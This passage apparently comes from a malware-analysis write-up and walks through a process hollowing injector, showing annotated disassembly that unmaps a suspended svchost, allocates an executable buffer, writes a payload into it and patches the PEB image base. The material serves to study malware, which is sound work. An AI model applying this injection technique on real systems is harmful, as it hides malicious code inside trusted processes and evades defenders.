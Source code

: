Now the injector knows where is the suspended `svchost`{: .filepath}, it unmaps it. It's like getting an empty shell:

```
.text:004011FE      mov     eax, [ebp+imagebase_svchost]
.text:00401201      push    eax
.text:00401202      mov     ecx, [ebp+ProcessInformation.hProcess]
.text:00401205      push    ecx
.text:00401206      call    [ebp+addr_NtUnmapViewOfSection]
```

Then a `RWX` buffer is allocated inside the process:

```
.text:00401209      push    PAGE_EXECUTE_READWRITE ; flProtect
.text:0040120B      push    3000h           ; MEM_COMMIT | MEM_RESERVE
.text:00401210      mov     edx, [ebp+IMAGE_NT_HEADER_payload]
.text:00401213      mov     eax, [edx+IMAGE_NT_HEADERS32.OptionalHeader.SizeOfImage]
.text:00401216      push    eax             ; dwSize: size of payload
.text:00401217      mov     ecx, [ebp+IMAGE_NT_HEADER_payload]
.text:0040121A      mov     edx, [ecx+IMAGE_NT_HEADERS32.OptionalHeader.ImageBase]
.text:0040121D      push    edx             ; lpAddress: payload imagebase
.text:0040121E      mov     eax, [ebp+ProcessInformation.hProcess]
.text:00401221      push    eax             ; hProcess
.text:00401222      call    ds:VirtualAllocEx
.text:00401228      mov     [ebp+destination], eax
```

The `lpAddress` parameter has been set so the RWX buffer base address and the payload base address have the same values. This avoid the pain of computing relocations.

It's time to write the payload in this newly allocated buffer. First, the headers:

```
.text:0040123C      push    0               ; lpNumberOfBytesWritten
.text:0040123E      mov     ecx, [ebp+IMAGE_NT_HEADER_payload]
.text:00401241      mov     edx, [ecx+IMAGE_NT_HEADERS32.OptionalHeader.SizeOfHeaders]
.text:00401244      push    edx             ; nSize
.text:00401245      mov     eax, [ebp+payload]
.text:00401248      push    eax             ; lpBuffer
.text:00401249      mov     ecx, [ebp+destination]
.text:0040124C      push    ecx             ; lpBaseAddress
.text:0040124D      mov     edx, [ebp+ProcessInformation.hProcess]
.text:00401250      push    edx             ; hProcess
.text:00401251      call    ds:WriteProcessMemory
```

Once all sections have been written (code not shown), the field `PEB.ImageBaseAddress` is updated (because the old address has been unmapped):

```
.text:004012B9      push    0               ; lpNumberOfBytesWritten
.text:004012BB      push    4               ; nSize
.text:004012BD      mov     edx, [ebp+IMAGE_NT_HEADER_payload]
.text:004012C0      add     edx, IMAGE_NT_HEADERS32.OptionalHeader.ImageBase
.text:004012C3      push    edx             ; source
.text:004012C4      mov     eax, [ebp+lpContext]
.text:004012C7      mov     ecx, [eax+CONTEXT._Ebx]
.text:004012CD      add     ecx, 8
.text:004012D0      push    ecx             ; dest
.text:004012D1      mov     edx, [ebp+ProcessInformation.hProcess]
.text:004012D4      push    edx             ; hProcess
.text:004012D5      call    ds:WriteProcessMemory ; update the target PEB.imagebase
```
